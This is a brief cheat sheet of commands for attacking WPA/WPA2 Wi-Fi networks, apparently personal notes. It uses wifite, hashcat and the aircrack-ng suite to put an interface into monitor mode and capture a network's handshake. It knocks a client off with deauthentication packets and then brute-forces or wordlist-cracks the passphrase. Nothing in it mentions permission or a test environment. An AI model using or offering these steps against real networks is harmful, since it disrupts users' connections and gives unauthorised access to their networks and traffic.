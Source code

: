# Automated
sudo wifite -mac --skip-crack --clients-only -wpa --no-wps --no-pmkid

https://hashcat.net/wiki/doku.php?id=cracking_wpawpa2

https://hashcat.net/cap2hccapx

hashcat.exe -m 22000 HASHFILE -a 3 ?d?d?d?d?d?d?d?d?d

# The old way
airmon-ng check
airmon-ng check kill
airmon-ng start INTERFACE
airodump-ng INTERFACE
airodump-ng INTERFACE --bssid APMAC -c CHANNEL -w CAPFILE
aireplay-ng INTERFACE --deauth 20 -a APMAC -h CLIENTMAC
aircrack-ng -w WORDLIST CAPFILE
airmon-ng stop INTERFACE
systemctl start network-manager
